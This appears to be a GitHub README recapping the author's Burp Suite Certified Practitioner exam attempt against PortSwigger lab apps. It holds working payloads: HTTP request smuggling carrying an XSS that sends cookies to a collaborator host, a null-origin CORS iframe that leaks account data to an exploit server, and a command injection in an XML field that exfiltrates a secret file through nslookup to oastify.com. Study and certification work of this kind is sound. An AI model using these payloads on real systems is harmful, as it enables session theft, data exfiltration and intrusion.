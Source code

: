 # BSCP2-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 2<sup>nd</sup> Exam
I have taken my first BSCP exam on **January 1st, 2025**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - UNEXPLOITED 😢 (CLOSE ENOUGH)
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
    5. We can see `userAgent` attribute inside the `Comment` form.

  - Strong Potential Vulnerability:
    - HTTP Req smuggling to deliver reflected XSS
    - HTTP Req smuggling to deliver to capture other user's request
   
  - Actual Vulnerability: HTTP Req Smuggling Dual-chunk with exploiting the reflected XSS in `userAgent`
    > I found this vulnerability based on the scan result using `HTTP Request Smuggling` extension scanner.
  - How to trigger for the first time:
    - Observe we can trigger xss vulnerability with manipulating the `userAgent`
    - Send the following request and Observe we get `Timeout` response in every our second request.
      ```HTTP
      POST / HTTP/1.1
      Host: webId.web-security-academy.net
      Cookie: YOUR_COOKIE
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 858
      Transfer-Encoding: chunked
      Connection: close
      Transfer-encoding: identity

      3
      x=y
      0\r\n
      \r\n
      ```
  - Exploit `HTTP Request Smuggling Dual-Chunk` using the following payload:
    ```HTTP
    POST / HTTP/1.1
    Host: webId.web-security-academy.net
    Cookie: YOUR_COOKIE
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 858
    Transfer-Encoding: chunked
    Connection: close
    Transfer-encoding: identity

    3
    x=y
    0

    GET /post?postId=2 HTTP/1.1
    User-Agent: a"/><script>document.location='http://collaboratorURL/?c='+document.cookie;</script>
    Cookie: YOUR_COOKIE
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 8

    foo=
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email.
    2. `isLoggedin` Cookie Parameter.
       
  - Vulnerability: Exploit the `forgot password` function using the `isLoggedin` flaw mechanism. Please refer [here](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file#10-csrf-refresh-password-isloggedin-true)
  - How to Exploit:
    1. Send `forgot password` request to the **Repeater**
    2. Change the `username` value in the body request to `adminsitrator`
    3. Observe the result with statusCode `200` and **administrator**'s cookie is reflected in the response.
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import 
  - Vulnerability: XXE Injection with dtd blid out of band
  - How to Trigger:
    Please the following payload and observe you get an error due to the character length:
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```
  - You have to exploit using [XXE with dtd out of band](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#dtd-blind-out-of-band). Unfortunatelly, I was late realizing this vulnerability and didn't have enough time to craft the payload.

### Application 2 - EXPLOITED ❤️‍🔥
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
          
  - Vulnerability: Brute Force Username and Password regarding the difference of response message in `forgot password` feature.
  
  - How to trigger for the first time:
    - Brute force the `username` in `forgot password` feature and Observe the difference of response message.
    - Brute force the `password` in `login` feature using the valid `usernames` from the previous step. Observe we get the response with **statusCode** `302`.

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email.
       
  - Vulnerability: Trusted Null Origin. Please refer [here](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#null-origin-trusted)
    > Observe the app send a request to `/accountdetails`.
  - How to Exploit:
    1. Observe we can send a request to `/accountdetails` with `origin: null` header.
    2. Use exploit server to send the malicious script as follows:
        ```HTTP
        <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0ab400a303b1b49583b01a7600a5009f.web-security-academy.net/accountdetails/?posix_timestamp=1735675249959',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='https://exploit-0aae000c0358b48483a01953017a0053.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
        };
        </script>"></iframe>
        ```
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```